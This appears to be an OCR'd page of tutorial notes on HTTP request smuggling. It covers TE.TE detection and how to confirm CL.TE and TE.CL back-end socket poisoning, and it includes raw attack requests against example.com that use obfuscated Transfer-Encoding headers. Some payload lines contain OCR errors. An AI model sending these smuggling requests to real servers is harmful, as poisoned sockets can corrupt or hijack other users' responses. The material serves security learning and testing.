 To uncover a TE.TE vulnerability, it is necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL vulnerabilities already described.
### Confirming The Attack
The next step towards demonstrating the full potential of request smuggling is to prove back-end socket poisoning is possible. To do this we'll issue a request designed to poison a back-end socket, followed by a request which will hopefully fall victim to the poison, visibly altering the response.
- If the first request causes an error the back-end server may decide to close the connection, discarding the poisoned buffer and breaking the attack. Try to avoid this by targeting an endpoint that is designed to accept a POST request, and preserving any expected GET/POST parameters.

Some sites have multiple distinct back-end systems, with the front-end looking at each request's method, URL, and headers to decide where to route it.
- If the victim request gets routed to a different back-end from the attack request, the attack will fail. As such, the 'attack' and 'victim' requests should initially be as similar as possible.\
#### CL.TE Socket Poisoning
If a request looks like:
```
POST / search HTTP/1.1
Host: example. com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

An attempt at CL.TE socket poisoning would look like:
```
POST / search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Transfer-Encoding: zchunked

17
=x&q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: bPOST /search HTTP/1.1
Host: example.com
```
If the attack is successful the victim request (`POST` and onwards) will get a 404 response.
#### TE.CL Socket Poisoning
The need for a closing chunk means we need to specify all the headers ourselves and place the victim request in the body. 
- Ensure the Content-Length in the prefix is slightly larger than the body:
```
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: zchunked

96
GET /404 HTTP/1.1
X: x=1&q=smugging&x=
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
```